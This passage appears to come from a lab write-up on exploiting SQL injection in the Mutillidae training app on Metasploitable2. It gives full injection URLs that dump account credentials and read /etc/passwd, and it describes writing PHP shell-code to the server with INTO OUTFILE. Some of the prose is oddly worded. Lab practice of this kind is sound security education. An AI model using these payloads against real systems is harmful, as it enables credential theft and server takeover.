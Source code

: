 http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![img31](https://github.com/user-attachments/assets/f30a4f76-b96b-4277-be7d-ac11b082e322)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![img32](https://github.com/user-attachments/assets/ecbeb9a1-440b-4e3e-af83-76cb535e1073)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
